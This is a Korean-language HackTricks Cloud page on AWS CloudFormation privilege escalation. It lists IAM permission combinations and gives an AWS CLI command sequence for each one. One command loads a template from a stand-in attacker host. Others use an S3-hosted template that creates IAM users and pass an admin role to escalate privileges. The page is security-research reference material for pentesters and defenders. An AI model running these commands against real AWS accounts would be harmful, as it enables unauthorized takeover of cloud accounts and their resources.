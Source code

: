 # AWS - Cloudformation Privesc

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## cloudformation

cloudformation에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

이 권한을 가진 공격자는 **지정된 역할의 권한으로 작업을 실행하기 위해** 자신의 서버에 호스팅된 **사용자 정의 템플릿**으로 **CloudFormation 스택**을 작성하여 **권한을 상승시킬 수 있습니다:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
다음 페이지에는 추가 권한 **`cloudformation:DescribeStacks`**가 있는 **익스플로잇 예제**가 있습니다:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**잠재적 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

이 경우 기존 cloudformation 스택을 **악용하여** 업데이트하고 이전 시나리오처럼 권한을 상승시킬 수 있습니다:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 지정된 cloudformation 서비스 역할에 대한 권한 상승.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

이 권한이 있지만 **`iam:PassRole`이 없는 경우**에도 **사용된 스택을 업데이트**하고 **이미 연결된 IAM 역할을 악용**할 수 있습니다. 이전 섹션에서 악용 예제를 확인하세요(업데이트에서 역할을 지정하지 마세요).

`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할에 대한 권한 상승.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

역할을 **전달하고 ChangeSet을 생성 및 실행할 수 있는 권한**을 가진 공격자는 **새 cloudformation 스택을 생성/업데이트하고 cloudformation 서비스 역할을 악용**할 수 있습니다. CreateStack 또는 UpdateStack과 마찬가지입니다.

다음 악용은 **ChangeSet 권한을 사용하여 스택을 생성하는**[ **CreateStack 하나의**](./#iam-passrole-cloudformation-createstack) 변형입니다.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한을 사용하여 **스택에 대한 `ChangeSet` 권한을 부여**하고 공격을 수행할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할에 대한 권한 상승.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

이 방법은 **IAM 역할**을 전달하지 않고 이전 방법과 유사하므로, 이미 연결된 역할을 **악용**할 수 있으며, 매개변수만 수정하면 됩니다:
```
--change-set-type UPDATE
```
**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

공격자는 이러한 권한을 악용하여 StackSets를 생성/업데이트하여 임의의 cloudformation 역할을 악용할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할로의 권한 상승.

### `cloudformation:UpdateStackSet`

공격자는 passRole 권한 없이 이 권한을 악용하여 StackSets를 업데이트하고 연결된 cloudformation 역할을 악용할 수 있습니다.

**잠재적 영향:** 연결된 cloudformation 역할로의 권한 상승.

## 참조

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
